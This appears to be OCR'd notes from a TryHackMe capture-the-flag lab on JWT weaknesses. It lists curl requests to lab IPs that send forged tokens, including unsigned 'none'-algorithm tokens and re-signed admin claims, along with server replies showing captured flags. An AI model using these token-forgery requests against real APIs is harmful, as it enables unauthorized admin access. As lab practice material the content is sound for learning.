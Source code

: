 curl -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9." http://10.10.145.94/api/v1.0/example2?username=admin

curl -H "Authorization: Bearer eyJhbGciOiJub25lIiwidHlwIjoiSldUIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9." http://10.10.145.94/api/v1.0/example2?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{6e32dca9-0d10-4156-a2d9-5e5c7000648a}"
}

curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.145.94/api/v1.0/example3
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0._yybkWiZVAe1djUIE9CRa0wQslkRmLODBPNsjsY8FO8

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0.G3YvpmL44_0QPqBh77TW2eMNwxpwLY6kG7tMLLBiJYM" http://10.10.145.94/api/v1.0/example3?username=user


curl -H "Authorization: Bearer 
eyJ0eXAiOiJKV1QiLCJhbGciOiJub25lIn0.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9." http://10.10.145.94/api/v1.0/example3?username=admin

curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.12345" http://10.10.145.94/api/v1.0/example3?username=admin

curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.ko7EQiATQQzrQPwRO8ZTY37pQWGLPZWEvdWH0tVDNPU" http://10.10.59.250/api/v1.0/example6?username=user

curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.XXXX" http://10.10.59.250/api/v1.0/example6?username=admin

 curl -H "Authorization: Bearer eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MX0.ko7EQiATQQzrQPwRO8ZTY37pQWGLPZWEvdWH0tVDNPU" http://10.10.59.250/api/v1.0/example6?username=admin
{
  "message": "Welcome admin, you are an admin, here is your flag: THM{a450ae48-7226-4633-a63d-38a625368669}"
}

curl -X POST http://10.10.59.250/api/v1.0/example3 -H "Content-Type: application/json" -d '{"username": "user", "password": "password3"}'
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6InVzZXIiLCJhZG1pbiI6MH0._yybkWiZVAe1djUIE9CRa0wQslkRmLODBPNsjsY8FO8

curl -H "Authorization: Bearer eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYWRtaW4iOjF9.au6ZnN5a4PDwXOM-KMMkTxZDUOBWcOU3zCGzOD5Gb-s" http://10.10.59.250/api/v1.0/example3?username=admin

curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "passwordX" }' http://10.10.10.214/api/v1.0/exampleX

curl -H 'Authorization: Bearer [JWT token]' http://10.10.10.214/api/v1.0/exampleX?username=Y

curl -H 'Content-Type: application/json' -X POST -d '{ "username" : "user", "password" : "password3" }' http://10.10.10.214/api/v1.0/example3
